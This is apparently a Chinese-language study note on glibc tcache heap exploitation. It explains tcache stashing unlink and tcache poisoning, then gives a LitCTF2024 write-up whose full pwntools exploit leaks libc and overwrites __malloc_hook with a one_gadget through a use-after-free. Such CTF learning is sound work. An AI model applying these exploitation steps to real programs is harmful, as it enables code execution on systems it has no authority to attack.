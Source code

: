 ```yaml
---
title: Tcache Attack
date: '2025-02-19 13:31:57'
updated: '2025-05-27 18:46:11'
---
```

2.27比2.23多了tcache

开始申请堆的时候出现的0x250的堆块，是tcachebin的管理堆块。tcache要求快

在2.31后大小是0x290

2.27的tcache对double free没有检查，仅限于非最新版本

tcache最大的堆块0x4f0   想要不进tcache，至少要申请0x500 大小的 chunk

## Tcache stashing unlink attack
主要利用的是 calloc 函数会绕过 tcachebin 从smallbin 里取出 chunk 的特性

当我们从small bin拿出来chunk的时候，程序会检查当前small bin链上是否还有剩余堆块，如果有的话并且tcache bin的链上还有空余位置(前提是不能为空，不然即使有空余也不行），就会把剩下的堆块链进tcachebin里面，但是链进去的时候没有进行链表的检查，所以我们可以在这个时候攻击这个即将链进tcachebin的堆块的bk指针，就可以达到任意地址写一个main_arena 地址的效果

<font style="background-color:#FBDE28;">smallbin 和 largebin 的 bin 中同一 size 区间的 chunk 都是 FIFO 机制，即从 bk 进入，从 fd 取出</font>

1. 假设目前tcache bin中已经有五个堆块，并且相应大小的small bin中已经有两个堆块，由bk指针连接为：chunk_A<-chunk_B
2. 利用漏洞修改chunk_A的bk为fake chunk，并且修改fake chunk的bk为target_addr - 0x10
3. 通过calloc()越过tcache bin，直接从small bin中取出chunk_B返回给用户，并且会将chunk_A以及其所指向的fake chunk放入tcache bin（这里只会检测chunk_A的fd指针是否指向了chunk_B）

```python
while ( tcache->counts[tc_idx] < mp_.tcache_count
    && (tc_victim = last (bin) ) != bin) //验证取出的Chunk是否为Bin本身（Smallbin是否已空）
{
 if (tc_victim != 0) //成功获取了chunk
 {
     bck = tc_victim->bk; //在这里bck是fake chunk的bk
     //设置标志位
     set_inuse_bit_at_offset (tc_victim, nb);
     if (av != &main_arena)
         set_non_main_arena (tc_victim);
 
     bin->bk = bck;
     bck->fd = bin; //关键处
 
     tcache_put (tc_victim, tc_idx); //将其放入到tcache中
 }
}
```

4. 在fake chunk放入tcache bin之前，执行了bck->fd = bin;的操作（这里的bck就是fake chunk的bk，也就是target_addr - 0x10），故target_addr - 0x10的fd，也就target_addr地址会被写入一个与libc相关大数值（可利用）
5. 再申请一次，就可以从tcache中获得fake chunk的控制权

综上，此利用可以完成获得任意地址的控制权和在任意地址写入大数值两个任务，这两个任务当然也可以拆解分别完成：

1. 获得任意地址target_addr的控制权：在上述流程中，直接将chunk_A的bk改为target_addr - 0x10，并且保证target_addr - 0x10的bk的fd为一个可写地址（一般情况下，使target_addr - 0x10的bk，即target_addr + 8处的值为一个可写地址即可）
2. 在任意地址target_addr写入大数值：在unsorted bin attack后，有时候要修复链表，在链表不好修复时，可以采用此利用达到同样的效果，在高版本glibc下，unsorted bin attack失效后，此利用应用更为广泛。在上述流程中，需要使tcache bin中原先有六个堆块，然后将chunk_A的bk改为target_addr - 0x10即可

> 来自：https://bailan2.github.io/2024/08/20/Pwn-%E5%A0%86%E5%9F%BA%E7%A1%80-tcache%20stashing%20unlink%20attack/#tcache-stashing-unlink-attack
>

### Tcache stash 
libc-2.29开始，出现了一种叫 stash 的机制，基本原理就是当调用 _int_malloc 时，如果从 smallbin 或者 fastbin 中取出 chunk 之后，对应大小的 tcache 没有满，就会把剩下的 chunk 放入 tcache 中

## Tcache poisoning
效果：实现任意地址写

释放堆块 b->a

修改b的指针指向想要分配堆块的地址相比与之前版本可以让 count 为负值，构造链表尾部的堆块

2.31需要在前一个堆块开始构造，绕过 count 的限制

### Tcache count
在 2.31 的 tcachebin 会检查 bin 里面 chunk 的数量，不能小于 0

## Tcache bins 和 Fast bins 的区别
tcache bins 是在 libc2.26 版本之后加进来的机制

| 特性 | Fastbins | Tcachebins |
| --- | --- | --- |
| 主要目标 | 提高小块内存分配和释放的速度 | 提高小块内存分配和释放的速度，特别是在多线程环境中 |
| 管理方式 | 使用单链表管理 | 使用单链表管理，每个线程有自己的缓存 |
| 内存块大小 | 主要管理小于等于 64 字节的块 | 管理多个大小的内存块，每个线程有自己的缓存 |
| 性能优化 | 避免访问全局空闲列表，减少锁竞争 | 进一步减少锁竞争，优化多线程性能 |
| 线程安全性 | 使用全局锁进行同步 | 每个线程有自己的缓存，减少全局锁使用 |


## LitCTF2024 heap 2.27 （第一道堆题）
![](/images/76a749e3ab8574347c99e1492412de8f.png)

安全措施全开了...害怕...

UAF（use-after-free)漏洞，看了看大概是利用 free 之后没有将指针置零可以再次利用，并且利用分配机制来重新申请到同一块内存来改写

看资料应该是跟 tcache 有关系，

找了一整天，连原题 WP 都找到了，但是看不懂，[找到的WP](https://xz.aliyun.com/news/14252)听 clby 师傅说写得太简洁



利用 unsortedchunk 泄露 libc 地址，算出 malloc_hook 的地址

利用 UAF 覆盖 tcache 中的 next（相当于 fd）为 malloc_hook，再申请出来这片内存修改 malloc_hook 为 one_gadget

旧版本 2.27 的 tcache 不需要伪造任何 chunk 结构即可实现 malloc 到任何地址

自己写的 exp：

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./heap")
libc=ELF('./glibc/libc-2.27.so')

def gdb_attach():
	gdb.attach(link)
	pause()

def create(idx,size):
	link.recvuntil(b'>>')
	link.sendline(b'1')
	link.recvuntil(b"?")
	link.sendline(str(idx))
	link.recvuntil(b"?")
	link.sendline(str(size))

def delete(idx):
	link.recvuntil(b'>>')
	link.sendline(b'2')
	link.recvuntil(b"?")
	link.sendline(str(idx))

def show(idx):
	link.recvuntil(b'>>')
	link.sendline(b'3')
	link.recvuntil(b"?")
	link.sendline(str(idx))

def edit(idx,content):
	link.recvuntil(b'>>')
	link.sendline(b'4')
	link.recvuntil(b"?")
	link.sendline(str(idx))
	link.recvuntil(b":")
	link.send(content)

ogg=[0x4f2be,0x4f2c5,0x4f322,0x10a38c]

create(1,1280) #unsorted
create(2,30) #tcache
delete(1) #unsorted
show(1) #unsorted
malloc_hook=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x70
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))
delete(2)
edit(2,p64(malloc_hook))
create(3,30)
create(4,30) #malloc_hook
edit(4,p64(libc_base+ogg[3]))
create(5,30)
# gdb_attach()


link.interactive()
```

要注意的一个点：

+ 最后发送内容的时候得用 `send` 而且不用 `str()`函数

```python
def edit(idx,content):
	link.recvuntil(b'>>')
	link.sendline(b'4')
	link.recvuntil(b"?")
	link.sendline(str(idx))
	link.recvuntil(b":")
	link.send(content)
```

